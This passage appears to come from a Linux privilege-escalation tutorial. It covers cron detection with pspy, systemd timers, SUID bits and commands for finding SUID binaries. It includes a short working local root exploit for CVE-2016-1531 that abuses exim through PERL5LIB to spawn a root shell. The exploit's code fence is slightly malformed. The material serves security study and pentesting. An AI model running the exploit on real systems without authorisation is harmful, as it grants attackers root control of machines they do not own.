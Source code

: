You can use  [pspy](https://github.com/DominicBreuker/pspy)  to detect a CRON job.

```
# print both commands and file system events and scan procfs every 1000 ms (=1sec)
./pspy64 -pf -i 1000
```

### Systemd timers

```
systemctl list-timers --all
NEXT                          LEFT     LAST                          PASSED             UNIT                         ACTIVATES
Mon 2019-04-01 02:59:14 CEST  15h left Sun 2019-03-31 10:52:49 CEST  24min ago          apt-daily.timer              apt-daily.service
Mon 2019-04-01 06:20:40 CEST  19h left Sun 2019-03-31 10:52:49 CEST  24min ago          apt-daily-upgrade.timer      apt-daily-upgrade.service
Mon 2019-04-01 07:36:10 CEST  20h left Sat 2019-03-09 14:28:25 CET   3 weeks 0 days ago systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service
```
&nbsp;

## 8] SUID

SUID/Setuid stands for “set user ID upon execution”, it is enabled by default in every Linux distributions. If a file with this bit is ran, the uid will be changed by the owner one. If the file owner is  `root`, the uid will be changed to  `root`  even if it was executed from user  `bob`. SUID bit is represented by an  `s`.

```
╭─local_host@kali ~  
╰─$ ls /usr/bin/sudo -alh                  
-rwsr-xr-x 1 root root 138K 23 nov.  16:04 /usr/bin/sudo

```

### Known Exploits

```echo [ CVE-2016-1531 local root exploit
cat > /tmp/root.pm << EOF
package root;
use strict;
use warnings;

system("/bin/sh");
EOF
PERL5LIB=/tmp PERL5OPT=-Mroot /usr/exim/bin/exim -ps
```

save this code as exploit.sh and execute to escalate


### FIND SUID BINARIES

```
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
```
```
find / -uid 0 -perm -4000 -type f 2>/dev/null
```
